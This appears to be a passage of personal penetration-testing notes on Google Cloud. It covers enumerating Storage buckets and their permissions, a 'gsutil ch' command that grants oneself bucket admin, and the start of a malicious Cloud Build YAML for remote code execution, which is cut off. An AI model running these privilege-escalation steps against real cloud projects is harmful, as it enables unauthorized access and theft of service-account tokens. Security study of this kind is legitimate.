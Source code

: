 </p><ul id="8dd6876b-984e-4408-99e4-23ec6a938db6" class="bulleted-list"><li style="list-style-type:disc">Google version of AWS S3</li></ul><ul id="dac78be5-bece-4a6f-8f0d-a5babf706f83" class="bulleted-list"><li style="list-style-type:disc">S3 bucket = Google Storage bucket</li></ul><ul id="9489c154-173e-468e-bbf0-fb62c77d8987" class="bulleted-list"><li style="list-style-type:disc">buckets are private by default on creation</li></ul><h3 id="6acd39e8-49e5-4c43-aa92-8dc6c4988efa" class="">Enumeration</h3><ul id="ba613e61-dbfc-44b7-b440-316b16931453" class="bulleted-list"><li style="list-style-type:disc">faster to enumerate buckets by querying the HTTP endpoint than using <code>gsutil</code></li></ul><ul id="9aa6ba8a-5bf6-4f45-b2ca-f00945659bfd" class="bulleted-list"><li style="list-style-type:disc"><code>HEAD</code> requests made to <code>https://www.googleapis.com/storage/v1/b/&lt;BUCKET_NAME&gt;</code> endpoint<ul id="194c1b45-3f12-4b4a-86f6-1aa65cb250fa" class="bulleted-list"><li style="list-style-type:circle">nonexistent bucket if response is <code>404</code> or <code>400</code></li></ul></li></ul><ul id="41066549-278f-458c-86d6-96af5ef6a8e8" class="bulleted-list"><li style="list-style-type:disc">public listing of buckets occur when <code>storage.objects.list</code> is given to <code>allUsers</code><ul id="3eccf55e-87fc-4965-8ec8-5edfd0fed078" class="bulleted-list"><li style="list-style-type:circle"><code>allUsers</code> means anyone on the internet (both authenticated and unauthenticated)</li></ul></li></ul><ul id="e73a3dae-5c1e-4025-b8a1-8d26a2efc93d" class="bulleted-list"><li style="list-style-type:disc">permissions on a bucket can be found via the <code>TestIAMPermissions</code> API<ul id="8c711568-b903-43e9-94b0-6dee2b70b6e4" class="bulleted-list"><li style="list-style-type:circle"><code>https://www.googleapis.com/storage/v1/b/BUCKET_NAME/iam/testPermissions?permissions=&lt;PERMISSION&gt;</code> </li></ul><ul id="032bc443-cd54-4269-9b21-fcfca05268ad" class="bulleted-list"><li style="list-style-type:circle"><code>https://www.googleapis.com/storage/v1/b/BUCKET_NAME/iam/testPermissions?permissions=storage.buckets.delete&amp;permissions=storage.buckets.get&amp;permissions=storage.buckets.getIamPolicy&amp;permissions=storage.buckets.setIamPolicy&amp;permissions=storage.buckets.update&amp;permissions=storage.objects.create&amp;permissions=storage.objects.delete&amp;permissions=storage.objects.get&amp;permissions=storage.objects.list&amp;permissions=storage.objects.update</code></li></ul><ul id="43a9fec0-5296-410e-a129-476290dbc8eb" class="bulleted-list"><li style="list-style-type:circle">not all permissions will be listed as some are not specific to Google Storage (e.g. <code>resourcemanager.projects.list</code></li></ul></li></ul><ul id="ba864f55-a165-4b5d-9a3e-7cc558a6f793" class="bulleted-list"><li style="list-style-type:disc"><code>allAuthenticatedUsers</code> is any user on internet that has authenticated to Google Cloud (has potential for misconfiguration!)<ul id="c406b592-96a1-4e01-b0ba-f26c1808b4c2" class="bulleted-list"><li style="list-style-type:circle">From Google (<a href="https://cloud.google.com/iam/docs/overview">https://cloud.google.com/iam/docs/overview</a>): <code>Note: Consider using allUsers, as described on this page, rather than allAuthenticatedUsers. In many cases, granting access to all users is no more of a security risk than granting access only to authenticated users.</code></li></ul></li></ul><h3 id="8a5f17b8-d8ad-4a62-ba71-604b24c35b78" class="">Set Bucket Policy</h3><ul id="1296629f-e98d-4e80-a332-153262f1f7cf" class="bulleted-list"><li style="list-style-type:disc">can privesc to <code>storage.admin</code> if you can read the bucket policy (<code>storage.buckets.getIamPolicy</code>) and set the IAM policy (<code>storage.buckets.setIamPolicy</code> )<ul id="7ce3e5a4-e982-4123-aeb3-56556e34098d" class="bulleted-list"><li style="list-style-type:circle"><code>storage.buckets.getIamPolicy</code> is not necessary, but otherwise you risk overwriting the original policy (could lead to errors in environment)</li></ul></li></ul><p id="62dbfd57-6586-411f-927e-8b763c1758f2" class=""><strong>Privesc command</strong>: <code>gsutil ch group:&lt;YOUR_CURRENT_GROUP&gt;:admin gs://&lt;BUCKET&gt;</code></p><h2 id="d8dda75f-4f0d-4b2a-9519-08c575e4f5cf" class="">Cloud Build</h2><p id="87a9d28e-8d73-4c7c-9fb9-0baf598cb844" class=""><a href="https://rhinosecuritylabs.com/gcp/iam-privilege-escalation-gcp-cloudbuild/">https://rhinosecuritylabs.com/gcp/iam-privilege-escalation-gcp-cloudbuild/</a></p><ol type="1" id="e56ae395-872e-4726-82ad-b6de9efc7d86" class="numbered-list" start="1"><li>Provide code for Cloud Build which gets executed during build process (RCE)</li></ol><ol type="1" id="8456508d-bede-491d-9c8d-2cb4de8bbc6b" class="numbered-list" start="2"><li>Get access token for cloudbuild service account</li></ol><ul id="a71da9af-52bf-46de-af88-e2eda5356471" class="bulleted-list"><li style="list-style-type:disc">must have permission to start a new build to escalate privileges (<code>cloudbuild.builds.create</code>)</li></ul><p id="21f36746-fb2a-48cd-8755-d8e469b9e797" class=""><a href="https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudbuild.builds.create.py">Exploit Script</a></p><h3 id="c2e45ea2-978b-474c-a463-ee949940114c" class="">Methodology</h3><ul id="c2860bee-71ee-4f3a-b339-c1514f1900bd" class="bulleted-list"><li style="list-style-type:disc">create malicious <code>.yaml</code> file:</li></ul><pre id="bd1653c6-4385-471a-a01c-982a70a23da0" class="code"><code>steps:
- name: &#x27;python&#x27;
  entrypoint: &#x27;python&#x27;
  args:
  - -c